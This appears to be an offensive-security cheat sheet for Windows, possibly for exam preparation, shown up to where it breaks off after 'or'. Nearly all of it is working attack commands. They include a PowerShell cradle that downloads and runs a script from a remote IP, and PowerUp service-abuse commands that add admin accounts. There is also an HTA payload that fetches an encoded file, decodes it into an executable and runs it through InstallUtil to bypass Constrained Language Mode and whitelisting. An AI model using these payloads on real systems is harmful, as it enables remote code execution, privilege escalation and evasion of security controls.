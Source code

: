 ## Powershell_Cradle
```powershell
iex(new-object net.webclient).downloadstring('http://192.168.49.68/<ToolName>.ps1')
```

<br>

## Unquoted paths via powerup
```
Write-ServiceBinary -Name 'unquotedsvc' -Path 'C:\Program Files\Unquoted Path Service\Common.exe' -Username badmin1 -Password p4ssw0rd123 -Verbose

net start unquotedsvc

```
<br>

## Service Permissions via powerup
```
Invoke-ServiceAbuse -Name 'daclsvc' -Username badmin3 -Password p4ssword123

net start daclsvc
```
<br>


### Constrained_lang_mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
<br>

### CLM_Bypass

- [CLM-BYPASS](https://github.com/calebstewart/bypass-clm)

```
Certutil -encode osep-clm.exe enc5.txt 
```
<br>

```
<head> 
<script language="JScript"> 
var shell = new ActiveXObject("WScript.Shell"); 
var res = shell.Run("powershell iwr -uri http://IP/enc5.txt -outfile C:\\Windows\\Tasks\\enc7.txt;powershell certutil -decode C:\\Windows\\Tasks\\enc7.txt C:\\Windows\\Tasks\\execute.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\Windows\\Tasks\\execute.exe"); 
</script> 
</head> 
<body> 
<script language="JScript"> 
self.close(); 
</script> 
</body> 
</html> 
```
<br>
or
<br>
